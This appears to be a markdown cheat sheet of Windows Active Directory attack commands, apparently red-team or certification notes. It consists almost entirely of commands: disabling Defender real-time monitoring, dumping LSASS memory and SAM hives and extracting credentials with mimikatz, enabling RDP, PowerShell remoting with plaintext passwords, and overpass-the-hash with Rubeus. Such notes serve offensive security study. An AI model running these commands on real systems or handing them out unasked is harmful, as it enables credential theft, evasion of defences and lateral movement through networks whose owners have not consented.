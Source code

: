 ## AV/AppLocker

```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump PID C:\Users\Public\lsass.dmp full
sekurlsa::minidump C:\AD\Tools\lsass.DMP
privilege::debug
sekurlsa::ekeys

reg save HKLM\SAM sam.hiv
reg save HKLM\SYSTEM system.hiv
privilege::debug
lsadump::sam /sam:sam.hiv /system:system.hiv
```

## Impersonate

### runas

```
echo PASSWORD | runas /netonly /noprofile /user:USER COMMAND
```

### RDP

```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

### PowerShell Remoting

```
winrs
$passwd = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("DOMAIN\USER", $passwd)
$sess = New-PSSession -ComputerName COMPUTER -Credential $creds
Enter-PSSession $sess
Invoke-Command -ScriptBlock {whoami} -ComputerName bla -Credential $creds
Invoke-Command -ScriptBlock {whoami} -Session $sess
Invoke-Command -FilePath SCRIPT.ps1 -Session $sess
```

### Over-PTH

```
Rubeus.exe asktgt /user:USER /aes256:AESKEY /ptt
sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AESKEY /run:cmd.exe
Rubeus.exe asktgt /user:USER /aes256:AESKEY /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
